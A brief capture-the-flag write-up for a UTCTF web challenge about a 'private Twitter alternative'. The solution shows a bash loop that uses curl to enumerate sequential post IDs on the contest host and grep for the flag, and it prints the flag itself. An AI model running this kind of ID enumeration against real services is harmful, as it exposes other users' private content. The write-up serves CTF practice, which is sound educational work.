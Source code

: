 #### Challenge:

I found this cool more private alternative to twitter. [http://web2.utctf.live:5320/](http://web2.utctf.live:5320/)

---

#### Solution:

After trying to submit entry to the service I noticed that my entry was given ID `58` in the URL. So I brute forced all the previous entries for the flag.

```bash
for iter in {1..58};
do
    curl -Ss "http://web2.utctf.live:5320/oink/$iter" | grep utflag;
done;
```

---

<details><summary>FLAG:</summary>

```text
utflag{traversal_bad_dude}
```

</details>
<br/>
